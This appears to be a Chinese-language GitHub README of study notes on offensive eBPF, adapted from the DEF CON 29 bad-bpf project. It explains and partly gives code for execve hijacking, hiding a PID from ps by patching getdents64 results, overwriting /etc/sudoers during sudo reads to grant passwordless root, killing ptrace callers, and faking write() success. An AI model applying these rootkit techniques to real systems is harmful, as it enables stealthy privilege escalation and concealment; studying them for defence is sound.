

# Security-With-eBPF

学习eBPF在安全中的运行，涉及的代码放到了code文件夹，主要参考[pathtofile/bad-bpf: A collection of eBPF programs demonstrating bad behavior, presented at DEF CON 29](https://github.com/pathtofile/bad-bpf)

## execve-hack

拦截 `tp/syscalls/sys_enter_execve`调用并修改成执行`/a`。

此外学习到了go代码设置用户态全局变量的方式：

```go

	spec, err := loadExechijack()
	if err != nil {
		log.Fatal("loadExechijack error", err)
	}
	err = spec.RewriteConstants(map[string]interface{}{
		"target_ppid": int32(11701),
	})
	if err != nil {
		log.Fatal("rewrite constants error,", err)
	}

	objs := exechijackObjects{}
	err = spec.LoadAndAssign(&objs, nil)
	if err != nil {
		log.Fatal("LoadAndAssign error,", err)
	}

	defer objs.Close()
```

先获取`spec`然后用`RewriteConstants`函数设置全局变量。

但是有奇怪的bug，有时候会遇到`bpf_probe_read_user_str`返回-14。发现也有别人遇到这种问题：[bpf_probe_read_str return error(-14) sometimes](https://github.com/cilium/ebpf/issues/419) ，[bpf_probe_read_user returns error (-14) on Android 11, Kernel 4.14, ARM64](https://github.com/iovisor/bcc/issues/3175) ，似乎没有成功解决。

后来发现这个东西有点玄学的，有时候命令执行的太快就会报这个错，不好说。


代码的原理就是`struct trace_event_raw_sys_enter *ctx`的`args[0]`是`char *filename`，通过修改`filename`来实现execve的hook，其实理论上的话命令执行的参数也可以修改的。


## pidhide

> Linux 系统中每个进程都在 /proc/ 目录下有一个以其进程 ID 命名的子文件夹，包含了该进程的各种信息。`ps` 命令就是通过查找这些文件夹来显示进程信息的。因此，如果我们能隐藏某个进程的 /proc/ 文件夹，就能让这个进程对 `ps` 命令等检测手段“隐身”。
>
> 要实现进程隐藏，关键在于操作 `/proc/` 目录。在 Linux 中，`getdents64` 系统调用可以读取目录下的文件信息。我们可以通过挂接这个系统调用，修改它返回的结果，从而达到隐藏文件的目的。实现这个功能需要使用到 eBPF 的 `bpf_probe_write_user` 功能，它可以修改用户空间的内存，因此能用来修改 `getdents64` 返回的结果。

具体需要理解各个字段的含义。`ctx`的第二个参数是`linux_dirent64 *dirp`，它的结构如下：

```c
 struct linux_dirent64 {
     u64        d_ino;    /* 64-bit inode number */
     u64        d_off;    /* 64-bit offset to next structure */
     unsigned short d_reclen; /* Size of this dirent */
     unsigned char  d_type;   /* File type */
     char           d_name[]; /* Filename (null-terminated) */ };
```

它实际上代表了`getdents64`将要访问的目录中的条目。前两个字段意义不大，第三个指的是当前这个`linux_dirent64`的长度，第五个`d_name`指的是当前目标的文件名，例如`pid`是200的话，即`/proc/200`，那么`d_name`就是200。


定义了三个eBPF程序，第一个程序处理`enter`，将`linux_dirent64 *dirp`传递给`Exit`处理程序。第二个处理`exit`，用于遍历`linux_dirent64`，找到目标Pid的`linux_dirent64`并交给`Patch`程序实现pid的隐藏。第三个用于`Patch`，实际上就是将目标Pid的`linux_dirent64`的前一个`linux_dirent64`的`d_reclen`修改为`d_reclen_previous + d_reclen`，这样就可以跳过目标Pid的文件。具体逻辑参考代码，我做了一些修改。


用户态里，因为要实现尾调用，所以要学习了clilum-go中怎么用尾调用：

```go
	err = objs.MapProgArray.Put(uint32(1), objs.HandleGetdentsExit)
	if err != nil {
		log.Fatal("put HandleGetdentsEnter error,", err)
	}
	err = objs.MapProgArray.Put(uint32(2), objs.HandleGetdentsPatch)
	if err != nil {
		log.Fatal("put HandleGetdentsPatch error,", err)
	}
```

在c中定义一个`BPF_MAP_TYPE_PROG_ARRAY`，go中将对应的函数添加进去。因此，`Patch`函数是不需要`link.Tracepoint`的。

另外就是这个程序好像要设置clang-11编译才能过。

example：

```bash
go build -o main&&./main -pid 400156
```


## Signal-Kill

之前书里的第九章提到了利用ebpf检测安全事件，最后提到了：

> 大多数基于eBPF程序的安全工具都是检测恶意事件，然后向用户空间的应用程序发出警告，然后用户空间的应用程序采取行动。这也导致了一个时间差的问题，可能采取行动的时候攻击已经完成了。
>
> 因此在kernel version5.3及其更高版本的内核中出现了BPF辅助函数`bpf_send_signal()`，可以生成signal信号来杀死恶意进程：



因此内核版本大于5.3的Linux的ebpf程序中可以通过`bpf_send_signal()`来杀死进程。


代码比较简单，主要是说明一下功能，真正运用的话肯定会有很多的逻辑代码：

```c
SEC("tp/syscalls/sys_enter_ptrace")
int bpf_dos(struct trace_event_raw_sys_enter *ctx)
{
    long ret = 0;
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int pid = pid_tgid >> 32;

    // if target_ppid is 0 then we target all pids
    if (target_ppid != 0) {
        struct task_struct *task = (struct task_struct *)bpf_get_current_task();
        int ppid = BPF_CORE_READ(task, real_parent, tgid);
        if (ppid != target_ppid) {
            return 0;
        }
    }

    // Send signal. 9 == SIGKILL
    ret = bpf_send_signal(9);

    // Log event
    struct event *e;
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e) {
        e->success = (ret == 0);
        e->pid = pid;
        bpf_get_current_comm(&e->comm, sizeof(e->comm));
        bpf_ringbuf_submit(e, 0);
    }

    return 0;
}
```


## sudoadd

sudo命令会读取`/etc/sudoers`，通过hook，当读取到`/etc/sudoers`的时候，将第一行覆盖为 `<username> ALL=(ALL:ALL) NOPASSWD:ALL #`，这可以让目标用户可以使用sudo且不需要输入密码。


需要对`sys_enter_openat`、`sys_exit_openat`、`sys_enter_read`、`sys_exit_read`、`sys_exit_close`进行hook。

`sys_enter_openat`用于判断当前的命令是不是sudo，以及读取的文件是不是`/etc/sudoers`，并且对uid做一次检测，如果都通过则向`fdMap`添加一个0，说明此时可以进行处理。

`sys_exit_openat`从返回值中取到`fd`并放入`fdMap`，用来与`sys_enter_read`中的`fd`进行对比确定是不是读取的同一个文件。

`sys_enter_read`中判断是同一个fd后，将`buf`放入`bufMap`。

`sys_exit_read`则是修改`bufMap`中的内容为payload。

`sys_exit_close`用于最后的处理，将之前添加进Map的元素删除。

```bash
#main文件里面修改全局变量参数。
go build -o main&&./main

parallels@ubuntu-linux-22-04-02-desktop:/$ sudo whoami
root

```

## writeblocker

实现的功能是指定Pid的进程无法实现写操作。具体实现上用了`SEC("fmod_ret/__arm64_sys_write")`。这是一种之前没遇到过的新ebpf程序类型，参考[Introduce BPF_MODIFY_RET tracing progs. [LWN.net]](https://lwn.net/Articles/813724/)

```c
int func_to_be_attached(int a, int b)
{  <--- do_fentry

do_fmod_ret:
   <update ret by calling fmod_ret>
   if (ret != 0)
        goto do_fexit;

original_function:

    <side_effects_happen_here>

}  <--- do_fexit
```

修改返回值为非0就可以跳过函数的处理，实现阻止Write操作，通过返回想要读取的字节数来让进程以为读取成功。

```c
// SPDX-License-Identifier: BSD-3-Clause
#include "vmlinux.h"
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>


char LICENSE[] SEC("license") = "Dual BSD/GPL";

// Ringbuffer Map to pass messages from kernel to user
struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 256 * 1024);
} rb SEC(".maps");


struct event {
    u32 pid;
    u8 comm[TASK_COMM_LEN];
    bool success;
};
const struct event *unused __attribute__((unused));

// Target Process ID
const volatile int target_pid = 0;
//const volatile int target_ppid = 0;
SEC("fmod_ret/__arm64_sys_write")
int BPF_PROG(fake_write, struct pt_regs *regs)
{
    pid_t pid = bpf_get_current_pid_tgid() >> 32;
    if (pid != target_pid) {
        return 0;
    }
    // Target PID, check FD so we don't block
    // stdin, stdout, or stderr
    u32 fd = PT_REGS_PARM1(regs);
    u32 count = PT_REGS_PARM3(regs);
    if (fd <= 2) {
        return 0;
    }
    // Log event and overwrite return
    struct event *e;
    bpf_printk("Faking write for pid=%d; fd=%d; count=%d\n", target_pid, fd, count);
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e) {
        e->success = true;
        // Send fd as PID
        e->pid = fd;
        bpf_get_current_comm(&e->comm, sizeof(e->comm));
        bpf_ringbuf_submit(e, 0);
    }

    // Return the number of bytes sent to be written
    // which makes it look like a sucessful write
    return count;
}
```


## References

[bpf_probe_read_str return error(-14) sometimes](https://github.com/cilium/ebpf/issues/419)

[bpf_probe_read_user returns error (-14) on Android 11, Kernel 4.14, ARM64](https://github.com/iovisor/bcc/issues/3175)

[bad-bpf](https://github.com/pathtofile/bad-bpf)